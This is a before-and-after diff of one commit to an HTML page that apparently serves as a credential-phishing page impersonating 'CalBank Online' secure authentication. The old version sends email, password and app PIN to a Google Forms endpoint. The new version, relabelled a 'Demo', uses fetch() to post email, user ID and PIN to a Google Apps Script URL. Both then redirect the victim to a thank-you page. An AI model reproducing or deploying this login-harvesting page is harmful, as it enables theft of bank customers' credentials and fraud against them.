

Before and after one commit to system-service-upgrade/prudential-service, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 90-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/FINAL secure_authentication_calbank.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Secure Authentication</title>
+  <title>Secure Authentication Demo</title>
   <style>
     body {
       font-family: Arial, sans-serif;
@@ -14,7 +14,7 @@
       align-items: center;
     }
     .header {
-      background-color: #f9c600;
+      background-color: #f9c600; /* Yellow header */
       color: #000;
       text-align: center;
       width: 100%;
@@ -49,60 +49,70 @@
     }
     .button-group {
       display: flex;
-      justify-content: space-between;
-      gap: 10px;
-      flex-wrap: wrap;
+      justify-content: center;
     }
     .button-group button {
-      flex: 1;
-      padding: 12px;
+      padding: 12px 20px;
       border: none;
       border-radius: 6px;
       font-size: 16px;
       font-weight: bold;
       cursor: pointer;
       transition: background 0.3s;
-      display: flex;
-      align-items: center;
-      justify-content: center;
+      background-color: #f9c600;
+      color: #000;
     }
-    .home-btn { background-color: #f7931e; color: #fff; }
-    .home-btn:hover { background-color: #e67c0e; }
-    .login-btn { background-color: #f9c600; color: #000; }
-    .login-btn:hover { background-color: #e6b200; }
+    .button-group button:hover {
+      background-color: #e6b200;
+    }
   </style>
 </head>
 <body>
   <div class="header">
-    <h1>Secure Authentication</h1>
-    <p>CalBank Online</p>
+    <h1>Secure Authentication Demo</h1>
+    <p>Connect to Google Sheet via Apps Script</p>
   </div>
 
   <div class="login-container">
-    <!-- Send form entries to Google Forms -->
-    <form action="https://docs.google.com/forms/d/e/1FAIpQLScYb69yvVFHhOzSA9XsrgyRCZSdCGwFz_mSXQHB3in87_cA_w/formResponse" method="POST" target="_blank" onsubmit="redirectAfterSubmit()">
+    <form id="authForm">
+      <label>Email</label>
+      <input type="email" name="email" placeholder="Enter email" required>
 
-      <label>Email or Phone Number </label>
-      <input type="email" name="entry.592928459" placeholder="Enter email" required>
+      <label>User ID</label>
+      <input type="text" name="userId" placeholder="Enter user ID" required>
 
-      <label>Password</label>
-      <input type="text" name="entry.1325979910" placeholder="Enter your password " required>
-
-      <label>App Pin Code</label>
-      <input type="text" name="entry.1166533453" placeholder="Enter pin" required>
+      <label>Login PIN</label>
+      <input type="password" name="pin" placeholder="Enter PIN" required>
 
       <div class="button-group">
-        <button type="submit" class="login-btn">VALIDATE →</button>
+        <button type="submit">Login  To Validate →</button>
       </div>
     </form>
   </div>
 
   <script>
-    function redirectAfterSubmit() {
-      setTimeout(() => {
-        window.location.href = "thank_you.html";
-      }, 1000);
-    }
+    document.getElementById('authForm').addEventListener('submit', async function(e) {
+      e.preventDefault();
+      const form = e.target;
+      const data = new FormData(form);
+      const params = new URLSearchParams(data);
+
+      try {
+        const response = await fetch("https://script.google.com/macros/s/AKfycbzv-M-i3ZgHE3IN-q1CnnmSrJh3_26l8sKnoMkl_kpvYnAh8hX7K70xzNIwrZhK7YKm/exec", {
+          method: "POST",
+          body: params
+        });
+
+        if (response.ok) {
+          window.location.href = "thank_you.html";
+        } else {
+          alert("Submission failed. Please try again.");
+        }
+      } catch (err) {
+        console.error(err);
+        alert("Error: " + err.message);
+      }
+    });
   </script>
 </body>
 </html>
```
